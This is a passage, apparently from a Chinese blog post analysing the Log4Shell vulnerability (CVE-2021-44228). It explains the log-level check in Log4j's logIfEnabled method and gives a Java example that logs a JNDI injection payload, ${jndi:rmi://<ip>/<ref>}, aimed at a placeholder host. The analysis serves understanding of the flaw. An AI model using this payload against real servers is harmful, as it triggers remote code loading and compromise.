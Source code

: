 ![img](../assets/2021-12-12-CVE-2021-44228-Apache%20Log4jshell%E7%9A%84%E6%B7%B1%E5%85%A5%E6%80%9D%E8%80%83/0hO8mv0.png)

原因是在logIfEnabled方法中，对当前日志等级进行了一次判断:

![image-20220109223725056](../assets/2021-12-12-CVE-2021-44228-Apache%20Log4jshell%E7%9A%84%E6%B7%B1%E5%85%A5%E6%80%9D%E8%80%83/image-20220109223725056.png)

该方法返回一个布尔值，只有在当前事件的日志等级大于或等于设置的日志等级时，才会符合条件，当返回值为 **True** 时，将继续 **logMessage()** 方法。

这里拿error举例说明:

```java
Logger logger = LogManager.getLogger();
logger.error("error message: {}",${jndi:rmi://<ip>/<ref>});
```


